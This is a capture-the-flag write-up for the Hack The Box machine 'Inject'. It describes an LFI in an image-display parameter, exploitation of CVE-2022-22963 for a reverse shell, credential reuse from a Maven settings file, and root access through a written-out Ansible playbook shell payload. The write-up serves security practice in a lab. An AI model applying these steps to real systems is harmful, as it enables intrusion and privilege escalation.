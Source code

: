 ```yaml
---
title: "Hack The Box - Inject [Easy]"
date: 2023-05-10T02:01:27+03:00
draft: false
tags: ["hackthebox"]
---
```


The machine is labeled misleadingly *easy*, but that can lead you to miss stuff, so make sure to check **everything**! 

A simple `nmap` scan shows us that `8080` port is open.

```bash
Nmap scan report for 10.10.11.204
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's start by simply inspecting the website that is running on port `:8080`.

The website seems like it has an upload form that we can upload images, my initial thought was LFI vulnerability, so I've checked it and I found it.

```
http://10.10.11.204:8080/show_image?img=<vulnerable  to LFI>
```

Now I've wandered around exploring the website's source code and after a bit of digging and searching I was on the verge of giving up. Since the machine is labeled easy, I didn't exactly expect that the way to find a vulnerability is through https://spring.io/security/cve-2022-22963 (CVE-2022-22963) and I overlooked the versions that were listed in the maven build file (which you could exfiltrate from the LFI vulnerability).

After that, a reverse shell using this https://github.com/lemmyz4n3771/CVE-2022-22963-PoC POC was easy-peasy.

While enumerating the users, we can see that we have `root, phil ,frank` and a group that is called `staff`. So changing from `frank` to `phil` was through `/home/frank/.m2/settings.xml` which had the credentials to change the user to `phil`.

You can get your first flag after that.


Changing to root was a bit tricky at first since I was trying to create a new playbook, which caused some errors and I finally decided to use the currently created one with the following payload.

```bash
$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' > ./playbook_1.yml
<blabla>
$ bash -p
$ whoami
root
```

And there we have it!
